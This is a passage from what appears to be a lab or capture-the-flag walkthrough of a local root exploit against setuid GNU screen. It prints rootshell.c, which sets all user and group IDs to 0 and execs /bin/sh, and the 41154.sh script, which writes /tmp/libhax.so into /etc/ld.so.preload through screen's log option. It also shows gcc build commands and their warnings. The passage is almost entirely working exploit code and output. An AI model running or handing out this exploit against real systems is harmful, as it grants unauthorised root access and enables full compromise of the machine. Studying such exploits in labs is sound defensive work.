 ### 2. rootshell.c

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

### 3. 41154.sh
```bash
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```
Run libhax.c and rootshell.c on local machine
```bash
$gcc -fPIC -shared -ldl -o libhax.so libhax.c
libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~
$gcc -o rootshell rootshell.c
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
    5 |     seteuid(0);
      |     ^~~~~~~
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]
```
